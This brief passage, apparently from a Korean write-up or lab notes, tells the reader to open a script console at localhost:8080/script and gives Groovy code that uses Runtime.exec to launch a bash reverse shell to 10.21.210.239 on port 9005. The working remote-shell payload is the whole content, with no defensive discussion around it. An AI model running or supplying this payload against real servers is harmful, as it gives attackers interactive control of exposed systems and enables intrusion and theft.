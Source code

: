 

http://localhost:8080/script 위치에 가서

```
r=Runtime.getRuntime()
p=r.exec(["/bin/bash","-c","sh -i >& /dev/tcp/10.21.210.239/9005 0>&1"] as String[])
p.waitFor()
```

